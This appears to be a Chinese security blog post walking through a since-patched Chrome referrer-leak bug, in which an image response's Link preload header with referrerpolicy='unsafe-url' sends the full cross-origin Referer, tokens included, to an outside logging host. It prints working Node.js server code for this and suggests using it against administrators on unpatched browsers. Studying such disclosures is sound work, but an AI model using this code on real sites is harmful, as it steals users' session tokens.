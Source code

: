 #  chrome “0day”讲解一二  
原创 testbywlp  安全边角料   2025-06-23 09:37  
  
- 前文  
  
    想写这篇文章已经很久很久了，感觉快拖一个月之久，今天刚好有时间将这篇文章输出一下，供大家参考。  
- 正文  
  
    事情的起因还得从x说起，有个人在x上发表了一篇推文，说他发现了一个chrome不为人知的特性，整个过程分为三步走，  
  
第一步插入一个img标签  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/lmvdhjeZU1VPyfLBq7icHlRBxbibMmuHeUKX7qxODbHFWic96aBIsNmwcl4k4GxZNBcg02ict4xNaoTXibrCO2t8ncg/640?from=appmsg "")  
  
第二步部署img src属性服务器，可以看到作者进行了特殊操作  
  
![Image](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lmvdhjeZU1VPyfLBq7icHlRBxbibMmuHeUrcVsJYtyGZlGobeEvaUQByVIh8O4M8iaZdbnILDxQz0B0aa6EmOuHRA/640?wx_fmt=jpeg&from=appmsg "")  
![]( "")  
  
通过img标签访问返回特殊头  
  
![Image](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lmvdhjeZU1VPyfLBq7icHlRBxbibMmuHeUadAX3GIQQt65GTslpOUbygdSliaJCt8yLOicXp9LXzJx2MJ52drC6lbg/640?wx_fmt=jpeg&from=appmsg "")  
![]( "")  
  
第三步客户端访问图片时携带完整的referer信息  
  
![Image](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lmvdhjeZU1VPyfLBq7icHlRBxbibMmuHeUuSHSCPb8fClNpcGLticMcEBBJ0x8DscIXASiaUnQjDvB3rnejJ0aWnWg/640?wx_fmt=jpeg&from=appmsg "")  
![]( "")  
- 疑问  
  
    写到这里你是不是在想，这什么脏东西？有什么用吗？我劝你别急，冷静, 冷静, 再冷静  
- 循序渐进  
  
    我们需要明白作者干了什么？他如何做到的？他绕过了哪些chrome的防护策略？  
- 做了什么  
  
    他通过类似img 的src属性值注入在跨域情况下拿到了系统的完整referer  
  
    是不是觉得这个事很简单？事实真的事如此吗？一般情况下，如果我们想拿跨域referer是否就能随便拿，不是哦；如果我们跨域加载一张图片，那么这个图片的referer会时这样的，只会发送三个元素，协议，主机名以及端口  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/lmvdhjeZU1VPyfLBq7icHlRBxbibMmuHeUgSfLws6DuibSzBDoibTsDTjMb6Bib3cvBmepYLhpDEjMPAnicOGiaQd8JSQ/640?wx_fmt=png&from=appmsg "")  
  
为什么我访问的明明是  
  
http://127.0.0.1/test1.html?token=aduahduahdaydyadad   
，但是跨域加载图片的时候referer却变成了  
http://127.0.0.1/，这就是浏览器的安全机制，因为图片加载跨域随处可见, 如果在加载三方图片的时候携带完整的referer，就有可能泄露敏感信息  
  
这就引出了第二个问题，同源加载图片会携带完整referer吗？答案是会的  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/lmvdhjeZU1VPyfLBq7icHlRBxbibMmuHeUA11q8zlxiaflUS8U1pMEEKfMibxribonN5EyFGG7rIwdwdcQTRPBFncYA/640?wx_fmt=png&from=appmsg "")  
  
接着如果研发设置no-referer呢？那就不会发送referer头  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/lmvdhjeZU1VPyfLBq7icHlRBxbibMmuHeUI8xY6NiaQicFYicGYls5vttFAQibeNmZmekgNEAYETiaxGRLno9lJTyNCNg/640?wx_fmt=png&from=appmsg "")  
  
当设置referrerpolicy="unsafe-url"的时候，在chrome浏览器中会强制携带完整referer参数  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/lmvdhjeZU1VPyfLBq7icHlRBxbibMmuHeUJADZ1vjqeKRokkd75UMjtsBTBiccDYhWLvC0P8FU1gsj27dSPXY3BSw/640?wx_fmt=png&from=appmsg "")  
  
    到这里应该大致明白了，就是作者绕过了默认情况下跨域的referer限制，通过注入img标签的src属性值成功拿到了完整的referer参数，这其实是一个很厉害的成果，让谷歌自己的策略相互矛盾  
- 复现  
  
    作者是怎么做到的呢？接下来我们一步一步复现来查看他的具体过程，首先我们需要一个nodejs写的服务器  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/lmvdhjeZU1WzYgkleoFs3gaCSDn4DFFYicicDLcibtFvEMBSPH2Ftz34S95Mup9VSDJXoJzwXDgtN0XIjDzOiaEemw/640?wx_fmt=png&from=appmsg "")  
  
为了方便大家直接使用，直接放代码  
```
const express = require('express');
const app = express();
const port = 9999;
const path = require('path');
app.get('/image.jpg', (req, res) => {
    res.setHeader('Link', '<http://apgflqrehhviutnoxzqzkj9l1df93rt8g.oast.fun/log>;rel="preload"; as="image"; referrerpolicy="unsafe-url"');
    res.sendFile(path.join(__dirname, 'logo.jpg'));
});
app.get('/log', (req, res) => {
    console.log(req.headers['referer']);
    res.send('Hi!');
});
app.listen(port, () => {
    console.log(`Server running at http://localhost:${port}`);
});
```  
  
html页面代码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/lmvdhjeZU1WzYgkleoFs3gaCSDn4DFFYJMh6m0azqLadiahhKpnzSPGic6A6taQHX6OZhmpAkfPIxvicwdXX0uV4A/640?wx_fmt=png&from=appmsg "")  
  
    在最新版本chrome打开试试效果，可以看到Link确实被访问了，但是并没有带referer啊  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/lmvdhjeZU1WzYgkleoFs3gaCSDn4DFFYoxUeB9VGO5ibCos09eoNSfAu8CNp6rsnYkLiak44Rv9jwvYND41WEoIQ/640?wx_fmt=png&from=appmsg "")  
  
不仅仅通过ip，也通过域名尝试并未发现携带完整referer的情况  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/lmvdhjeZU1WzYgkleoFs3gaCSDn4DFFY3hz1a8PwkrfTdyZKjCUKQmq9CcDTxKxI9QVbPVg4zAdqeIVaB6ynWQ/640?wx_fmt=png&from=appmsg "")  
  
这就让我有点好奇了，有没有可能被修复了，所以就去寻找官方的发布文档，终于找到了被修复的证据  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/lmvdhjeZU1WzYgkleoFs3gaCSDn4DFFYibYTXDqlOGPXiapmfcSN51xjkN4nDatm9BhzYIrT6c8bbPy8DwVUmLYQ/640?wx_fmt=png&from=appmsg "")  
  
可能有些人会问，TBD是什么意思，别的漏洞都给美刀，这个为啥是TBD？难道是一种新的货币？不是的，TBD的意思是  
To Be Determined，  
中文意思是待确定赏金。  
  
到这一步了，我们就知道该如何去复现这个0day漏洞，需要下载一个  
136.0.7103.1  
02版本之前的chrome浏览器，链接放在下面了  
  
https://google-chrome.cn.uptodown.com/windows/download/1071177372  
  
    访问图片返回link头  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/lmvdhjeZU1WzYgkleoFs3gaCSDn4DFFYOAibs3IxP6IqgRZ5oDaTuxCfhjyo4iaj3aqkPGSNgMNoB6zfZg0dgIIA/640?wx_fmt=png&from=appmsg "")  
  
    访问link成功获取token  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/lmvdhjeZU1WzYgkleoFs3gaCSDn4DFFYJ7TJsymcU0f8ZTEpg5gazyMibcI22LaqXRbESywNrgCTc60Ipd5VmSQ/640?wx_fmt=png&from=appmsg "")  
- 场景  
  
    既然这个0day存在，那么利用场景应该是我们需要去考虑的。现在回头想想，我们以前挖到img的src属性值注入都是怎么利用的？目前已知的可能就这么几种：  
- src属性值插入系统退出链接，这种只能对GET请求起作用，危害的话就是访问图片退出系统  
  
- 插入自己的服务器上的图片，有些系统在访问图片时会携带TOKEN、authoraztion等认证头  
  
    而这个漏洞的出现给了我们更多的选择性，可能有人会说最新版本已经修复了，但是不能所有人都更新了吧，如果你能给管理员用户提交审核时伪造资料图片链接地址，在他没更新浏览器的情况下是不是能拿到他的referer，如果再运气好，拿到token类似的岂不是发了。  
  
除了上述没有更新chrome浏览器的情况之外，可以考虑下移动端，因为很多浏览器都是基于chrome的内核来改的，或许就会支持它的一些特性  
- 实践  
  
    国外小哥通过这个漏洞拿到token  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/lmvdhjeZU1WzYgkleoFs3gaCSDn4DFFYXxACwj3Rib7azdwazxUu0kOIS900x0HqxMeG8jD6s7QvCNK9ubtqZIA/640?wx_fmt=png&from=appmsg "")  
  
另一个人则发现相似的利用手段  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/lmvdhjeZU1WzYgkleoFs3gaCSDn4DFFY8rdXorH7rzC9VDZWQg3DPMbMv679vmXibDmkTzzibJbID2QcwQD7jjgg/640?wx_fmt=png&from=appmsg "")  
- 参考文章  
  
https://blog.voorivex.team/leaking-oauth-token-via-referrer-leakage  
  
